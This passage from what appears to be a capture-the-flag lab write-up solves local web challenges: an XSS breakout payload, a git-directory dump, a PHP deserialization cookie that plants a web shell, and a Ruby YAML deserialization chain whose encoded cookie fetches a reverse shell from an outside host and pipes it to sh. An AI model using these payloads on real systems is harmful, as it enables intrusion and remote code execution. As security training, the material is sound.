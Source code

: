     ```
- Ans: ```a`*///">--></title></style></xmp><script>prompt()</script><svg/onload=prompt()>```
    - ![](https://i.imgur.com/TZ5Pnea.jpg)

**Flag: `FLAG{y0u_R_XsS_M4st3r!}`**

## 0x1A A8 - Practice 1

1. `http://127.0.0.1:8101/.git/` -> `user@ubuntu:~/tmp$ ../dvcs-ripper/rip-git.pl -v -u http://localhost:8101/.git/`
2. POST /result.php with COOKIE: `O:9:"FileClass":2:{s:8:"filename";s:4:"test";s:7:"content";a:1:{i:0;s:32:"<?php echo $_GET[1]($_GET[2]);?>";}}`
cook=Tzo5OiJGaWxlQ2xhc3MiOjI6e3M6ODoiZmlsZW5hbWUiO3M6NDoidGVzdCI7czo3OiJjb250ZW50IjthOjE6e2k6MDtzOjMyOiI8P3BocCBlY2hvICRfR0VUWzFdKCRfR0VUWzJdKTs/PiI7fX0=
curl --cookie "cook=Tzo5OiJGaWxlQ2xhc3MiOjI6e3M6ODoiZmlsZW5hbWUiO3M6NDoidGVzdCI7czo3OiJjb250ZW50IjthOjE6e2k6MDtzOjMyOiI8P3BocCBlY2hvICRfR0VUWzFdKCRfR0VUWzJdKTs/PiI7fX0=" http://localhost:8101/result.php
**Flag: `CTF{51mpl3_d353r14l1z3}`**

## 0x1B A8 - Practice 2

1. `http://127.0.0.1:8102/users?yaml=`, we can pass any value to `yaml` and it will just be fed to `YAML.load`

```ruby
http://127.0.0.1:8102/users
?yaml=---
!ruby/object:Gem::Requirement
requirements:
  !ruby/object:Rack::Session::Abstract::SessionHash
    req: !ruby/object:Rack::Request
      env:
        "rack.session": !ruby/object:Rack::Session::Abstract::SessionHash
          id: 'hi from espr'
        HTTP_COOKIE: "a=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQg6DkBpbnN0YW5jZW86CEVSQgc6CUBzcmNJIjpgY3VybCBodHRwczovL3NoZWxsLm5vdy5zaC8xOTIuMTY4LjEwLjE1MDoxMzM3IHwgc2hgCgY6BkVUOgxAbGluZW5vaQI5BToMQG1ldGhvZDoLcmVzdWx0OhBAZGVwcmVjYXRvcm86H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uBjoOQHNpbGVuY2VkVA=="
    store: !ruby/object:Rack::Session::Cookie
      coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
      key: a
      secrets: []
    exists: true
    loaded: false
```

- ![](https://i.imgur.com/9pxjwsd.png)

**Flag: `FLAG{Just_a_flag}`**

## 0x1C A9 - Practice 1

> PHPMail CVE-2016-10033
> Ref: [PHPMailer 命令执行漏洞（CVE-2016-10033）分析](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)
